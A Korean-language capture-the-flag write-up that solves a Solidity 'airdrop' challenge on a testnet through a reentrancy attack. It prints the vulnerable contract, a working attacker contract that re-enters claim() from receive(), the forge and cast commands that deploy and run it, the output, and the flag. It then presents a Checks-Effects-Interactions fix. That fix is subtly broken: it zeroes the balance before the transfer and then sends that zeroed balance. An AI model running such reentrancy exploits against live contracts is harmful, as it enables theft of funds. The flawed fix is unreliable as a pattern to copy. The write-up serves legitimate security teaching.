 # Intermediate: 2. airdrop



**Mission**

Reentrancy attacks are a well-known and critical vulnerability in smart contract development. Every Solidity developer must be vigilant to avoid such issues in their contracts - [contract](https://sepolia.scrollscan.com/address/0x5A2023EF8938Fc8CBBC9356E988415970e755B46)

```solidity
pragma solidity =0.8.27;

contract Airdrop {
    uint256 totalDrop;
    mapping(address user => bool isDone) public done;
    mapping(address user => uint256 balance) public balances;
    mapping(address user => uint256 claimed) public claimed;
    mapping(address user => bool hasFlag) public flag;

    function airdrop() external {
        require(done[msg.sender] == false, "already received the airdrop.");
        balances[msg.sender] += 1 wei;
        done[msg.sender] = true;
        totalDrop++;
    }

    function claim() external {
        require(balances[msg.sender] > 0, "no balance to claim");
        claimed[msg.sender] += 1 wei;
        payable(msg.sender).call{value: balances[msg.sender]}("");
        balances[msg.sender] = 0;
    }

    function buyFlag(address buyer) external {
        require(flag[buyer] == false, "already bought flag");
        require(claimed[msg.sender] == 10 wei, "not enought to buy flag");
        claimed[msg.sender] = 0;
        flag[buyer] = true;
    }

    receive() external payable {}
    fallback() external payable {}
}
```

buyFlag의 조건을 보면 claimed가 10wei여야 한다.

claimed는 claim 함수에서 1wei씩 증가한다.

```solidity
    function claim() external {
        require(balances[msg.sender] > 0, "no balance to claim");
        claimed[msg.sender] += 1 wei;
        payable(msg.sender).call{value: balances[msg.sender]}("");
        balances[msg.sender] = 0;
    }
```

우리는 이 함수를 호출하기 위해 balances가 0보다 커야 한다.

balances는 airdrop 함수에서 증가한다.

```solidity
    function airdrop() external {
        require(done[msg.sender] == false, "already received the airdrop.");
        balances[msg.sender] += 1 wei;
        done[msg.sender] = true;
        totalDrop++;
    }
```

airdrop  함수는 done으로 체크해 한 msg.sender당 한 번 호출할 수 있다.

즉 유저는 balances를 1wei만 올릴 수 있다. 

여기서 우리는 airdrop을 호출해 balances를 1wei로 만들어 claim 함수는 호출할 수 있게 되었다. 그러나 claim 함수 마지막에 balances를 0으로 초기화한다. 즉 claimed도 결국 1 wei밖에 올리지 못할 것 처럼 보인다. 어떻게 문제를 해결할 수 있을까?

그 정답은 claim 함수에서 msg.sender에게 call 함수로 이더를 보내는 과정에서 찾을 수 있다. 

솔리디티에서, 컨트랙트가 이더를 받기 위해서는 receive라는 특별한 함수가 구현되어 있어야 한다. 그런데 만약 receive 함수에서 claim함수를 재호출한다고 생각해보자. 

그러면 call 함수 밑에 있는 

```solidity
balances[msg.sender] = 0;
```

가 수행되기 전에 claim이 재호출되어, 아직 balances가 줄어들지 않아 다시한번 claimed를 증가시킬 수 있다. 그럼 다시 call로 이더를 보낼 때 또 한번 receive에서 claim 함수를 호출하는 과정을 10번 반복하면, 우리는 claimed를 10wei로 올릴 수 있게 된다.

이러한 공격을 reentrancy attack이라고 한다. 

문제 해결을 위해 디렉토리를 만들자

```solidity
forge init airdrop
```

그 후, airdrop/src에 Solve.sol을 생성한 수 아래와 같이 공격 코드를 작성한다.

```solidity
pragma solidity =0.8.27;

interface iAirdrop{
	function claimed(address) external returns(uint);
	function airdrop() external;
	function claim() external;
	function buyFlag(address) external;
}

contract Solve{
	iAirdrop target;

	function exploit(address _target) public{
		target = iAirdrop(_target);
		
		target.airdrop();
		target.claim();
		target.buyFlag(tx.origin);
	}

	receive() external payable{
		if(target.claimed(address(this)) != 10 wei){
			target.claim();
		}
	}
}
```

이제 컨트랙트를 deploy하고, 공격을 수행해보자.

create contract:

```solidity
forge create Solve --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY
```

result:

```solidity
Deployer: 0x4C5F15604c4B63EcBe4DFfA125879e0CC278711b
Deployed to: 0x1dCF48ACE0ff7A96C27BA358Be2bB1555e99d9C3
Transaction hash: 0x52b282164013f970196e940830fc5192e80dd98be58b83c96b215d078232e9ab
```

exploit:

```solidity
cast send 0x1dCF48ACE0ff7A96C27BA358Be2bB1555e99d9C3 "exploit(address)" 0x5A2023EF8938Fc8CBBC9356E988415970e755B46 --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY 
```

이렇게 공격에 성공해 Flag를 얻을 수 있다. 재진입 공격은 이더리움에서 가장 대표적인 해킹 중 하나이다.(The Dao Hack) 그렇다면 어떻게 reentrancy attack을 막을 수 있을까?

여러 방법이 있지만 그 중 대표적은 것은 CEI Pattern을 적용하는 것이다. 이는 Checks-Effects-Interactions Pattern의 약자로 먼저 조건을 검사한 후(Check) 상태를 변경하고(Effect) 그 다음에 다른 컨트랙트와 상호작용(Interaction)하는 것을 의미한다. 즉 우리는 call 함수를 통해 다른 컨트랙트와 interaction하게 되는데, 이 interaction 다음에 Effect, 즉 blanaces를 call 뒤에서 변경하는 것이  문제인 것이다. CEI Pattern을 적용해 interaction보다 effect를 먼저 수행하여 재진입 공격을 방지할 수 있다. 아래는 CEI Pattern을 적용한 샘플 코드이다.

```solidity
pragma solidity =0.8.27;

contract Airdrop {
    uint256 totalDrop;
    mapping(address user => bool isDone) public done;
    mapping(address user => uint256 balance) public balances;
    mapping(address user => uint256 claimed) public claimed;
    mapping(address user => bool hasFlag) public flag;

    function airdrop() external {
        require(done[msg.sender] == false, "already received the airdrop.");
        balances[msg.sender] += 1 wei;
        done[msg.sender] = true;
        totalDrop++;
    }

    function claim() external {
        // check
        require(balances[msg.sender] > 0, "no balance to claim");
        // effect
        claimed[msg.sender] += 1 wei;
        balances[msg.sender] = 0;
        // interaction
        (bool success, ) = payable(msg.sender).call{value: balances[msg.sender]}("");
        require(success, "claim() Failed...");
    }

    function buyFlag(address buyer) external {
        require(flag[buyer] == false, "already bought flag");
        require(claimed[msg.sender] == 10 wei, "not enought to buy flag");
        claimed[msg.sender] = 0;
        flag[buyer] = true;
    }

    receive() external payable {}
    fallback() external payable {}
}
```

우리는 balances를 call 전에 먼저 0으로 만듦으로써, 재진입 공격을 방지할 수 있게 된다. 만약 모종의 이유로 call에서 에러가 난다면 require로 revert 시켜 변경된 balances를 원상태로 되돌릴 수 있다.

Flag:

```solidity
ethcon2024{https://blog.Chain.Link/reentrancy-attacks-and-the-dao-hack/}
```